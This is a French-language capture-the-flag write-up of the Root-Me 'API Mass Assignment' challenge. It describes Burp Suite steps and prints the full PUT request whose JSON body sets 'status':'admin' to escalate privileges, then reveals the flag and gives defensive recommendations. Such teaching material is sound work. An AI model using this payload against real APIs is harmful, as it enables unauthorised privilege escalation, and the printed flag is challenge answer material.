






## Challenge 11 – API Mass Assignment

- **Nom :** API - Mass Assignment
- **URL :** https://www.root-me.org/fr/Challenges/Web-Serveur/API-Mass-Assignment

### Étapes de découverte

1. Ouverture du challenge Root-Me.
2. Création d'un compte utilisateur avec le username `test1` et le password `test1` via l'endpoint `POST /api/signup`.
   
3. Connexion et observation des requêtes dans l'onglet `Proxy → HTTP history` de Burp Suite.
4. Identification d'une requête `GET /api/user` qui retourne les informations de l'utilisateur connecté.
   
5. Envoi de cette requête vers `Repeater` pour pouvoir la modifier.
6. Modification de la méthode HTTP de `GET` vers `PUT` et ajout d'un body JSON contenant des champs supplémentaires : `"status":"admin"`, `"userid":3`, et `"username":"test1"`.
   
7. On tente d'envoyer, mais on se rend compte à l'aide de l'erreur,qu'il manque un `Content-Type: application/json`
   
8. Ajout du header `Content-Type: application/json` à la requête.
   
9. Réussite de la modification avec une réponse `200 OK` et le message `"User updated successfully"`. L'utilisateur s'est auto-attribué le statut `admin` via la vulnérabilité de **Mass Assignment**.
   
10. Accès à l'endpoint `GET /api/flag` (réservé aux administrateurs) qui retourne le flag : `RM{1wYs_ch3ck_0pt10ns_m3th0d}`.
    

### Payload utilisé

**Requête PUT pour s'attribuer le statut admin :**

```text
PUT /api/user HTTP/1.1
Host: challenge01.root-me.org:59090
Accept-Language: en-GB,en;q=0.9
accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Referer: http://challenge01.root-me.org:59090/
Accept-Encoding: gzip, deflate, br
Cookie: _ga=GA1.1.1036598757.1764675586; _ga_SRYSKX09J7=GS2.1.s1764680764$o2$g1$t1764680764$j60$l0$h0; session=.eJwljkE0wzAIBP_CuQdswJh8JjKGqL0mzanq32upx1NMNVvv0B_Tj2esL2Pu98wBK2MAVo6WQYJpwEc30yNNZIjlmDi00jXdPgkpajsXKh7t578FJkkpJT9M0xplcaAwNnmUy83hB1SPM2KKsKaSdis4VdOaqWCFgh95Xnv4bg-wO-iS6p.aS7lmg.Pyeo5FGYz0N_rLK0kzRai-W0uwA
Connection: keep-alive

{
    "note":"",
    "status":"admin",
    "userid":3,
    "username":"test1"
}
```

### Les recommandations

**Pour prévenir les vulnérabilités de Mass Assignment :**

1. **Utiliser une liste blanche (whitelist) de propriétés modifiables** : Ne jamais faire confiance aux données entrantes de l'utilisateur. Seuls les champs explicitement autorisés doivent pouvoir être modifiés (par exemple : `username`, `email`, `password`). Les champs sensibles comme `status`, `role`, `userid`, `isAdmin` ne doivent jamais être directement assignables par l'utilisateur.

2. **Implémenter une validation stricte côté serveur** : Vérifier que seuls les champs autorisés sont présents dans le payload JSON. Rejeter toute requête contenant des champs non autorisés.

3. **Utiliser des DTOs (Data Transfer Objects)** : Créer des objets dédiés pour la réception des données utilisateur, contenant uniquement les propriétés modifiables, plutôt que d'utiliser directement les modèles de base de données.

4. **Appliquer le principe du moindre privilège** : Les utilisateurs ne doivent pouvoir modifier que leurs propres données, et jamais des attributs liés aux permissions ou aux rôles.

**Références :**
- https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html
- https://cwe.mitre.org/data/definitions/915.html
